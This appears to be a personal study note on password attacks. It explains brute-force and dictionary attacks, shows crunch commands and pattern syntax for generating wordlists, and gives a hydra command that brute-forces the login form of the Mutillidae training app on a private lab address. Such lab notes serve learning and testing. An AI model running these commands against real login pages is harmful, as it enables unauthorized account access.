 > BRUTE Force
- Cover all possible combinations.

> Dictionary Attack
- Use a wordlist, try every passwordin the list.

> Creating wordlist
- crunch [min] [max] [characters] -t [pattern] -o [Filename]
```bash
crunch 6 8 0123456789 -t a@@@b -o generated_passwords.txt 
# -f for character combination file
crunch 6 8 0123456789 -f /usr/share/crunch/charset.lst a@@@b generated_passwords.txt 
```

```bash
# patterns
@ -> lower
, -> upper
% -> numbers
^ -> symbols
```

## hydra
```bash
hydra 192.168.30.220 -l reza -P /home/kali/Documents/test.txt http-post-form "/mutillidae/index.php?page=login.php:username=^USER^&password=^PASS^&login-php-submit-button=Login:F=Not Logged In"
```